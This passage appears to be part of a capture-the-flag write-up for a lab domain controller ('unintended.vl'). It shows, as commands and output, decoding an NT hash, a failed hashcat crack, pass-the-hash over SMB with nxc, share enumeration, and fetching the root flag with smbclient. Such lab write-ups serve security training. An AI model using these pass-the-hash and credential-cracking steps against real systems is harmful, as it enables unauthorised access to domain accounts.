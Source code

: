 ```shell-session
# 1 entries
# 3 referrals
```

```shell-session
└─$ echo 'Nv4<...>4ow==' | base64 -d | xxd -p
36fe<...>f8a3
```

It doesn't crack with `rockyou.txt`:

```shell-session
└─$ hashcat -a0 -m1000 36fe<...>f8a3 /usr/share/wordlists/rockyou.txt
```

However we can use pass-the-hash over SMB:

```shell-session
└─$ nxc smb dc -u Administrator -H 36fe<...>f8a3         
SMB         10.10.156.133   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.156.133   445    DC               [+] unintended.vl\Administrator:36fe<...>f8a3 (Pwn3d!)
```

We can read and write to our home directory:

```shell-session
└─$ nxc smb dc -u Administrator -H 36fe<...>f8a3 --shares
SMB         10.10.143.229   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.143.229   445    DC               [+] unintended.vl\Administrator:36fe<...>f8a3 (Pwn3d!)
SMB         10.10.143.229   445    DC               [*] Enumerated shares
SMB         10.10.143.229   445    DC               Share           Permissions     Remark
SMB         10.10.143.229   445    DC               -----           -----------     ------
SMB         10.10.143.229   445    DC               sysvol          READ,WRITE      
SMB         10.10.143.229   445    DC               netlogon        READ,WRITE      
SMB         10.10.143.229   445    DC               home            READ,WRITE      Home Directories
SMB         10.10.143.229   445    DC               IPC$                            IPC Service (Samba 4.15.13-Ubuntu)
```

By using `smbclient` with pass-the-hash we can read the root flag:

```shell-session
└─$ smbclient -U Administrator --password=36fe<...>f8a3 --pw-nt-hash //dc.unintended.vl/home
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Mar 30 09:37:08 2024
  ..                                  D        0  Sat Feb 24 21:13:16 2024
  .profile                            H      807  Sat Feb 24 21:13:16 2024
  .cache                             DH        0  Sat Feb 24 21:13:16 2024
  .bashrc                             H     3771  Sat Feb 24 21:13:16 2024
  .bash_logout                        H      220  Sat Feb 24 21:13:16 2024
  root.txt                            N       37  Sat Mar 30 09:37:08 2024

        10218772 blocks of size 1024. 6238764 blocks available
smb: \> get root.txt
getting file \root.txt of size 37 as root.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> exit
```

